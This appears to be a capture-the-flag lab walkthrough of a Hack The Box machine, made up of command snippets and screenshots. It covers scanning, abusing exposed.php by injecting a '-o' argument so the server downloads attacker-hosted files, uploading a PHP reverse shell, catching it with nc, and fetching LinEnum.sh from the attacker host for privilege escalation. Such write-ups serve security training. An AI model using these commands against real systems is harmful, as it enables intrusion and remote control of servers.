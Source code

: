 ![image](https://github.com/regarmulia/HTB/assets/33616880/55d9649e-1925-4ff6-a308-f6f0d024e1c4)```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.24
```
![image](https://github.com/regarmulia/HTB/assets/33616880/46735d62-2827-4576-966f-4259541ac585)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6e89b74-85df-466e-bd99-5779c782bc3e)


```
http://10.10.10.24/exposed.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/835a805c-0ea0-46dd-a17b-da4fad050cd3)


```
http://10.10.14.3/lala.txt -o uploads/lala.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fad0f92d-e6ca-4f6d-8abb-e4c2355198e6)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


```
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6f90ae46-7da7-4b79-a535-23ff44c610eb)


```
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/edb8a437-2dc8-44b4-b5b6-6b05fbc7fefe)


```
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/14ee2274-fa4e-4a6d-a371-56f5584faf65)


```
OR
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)
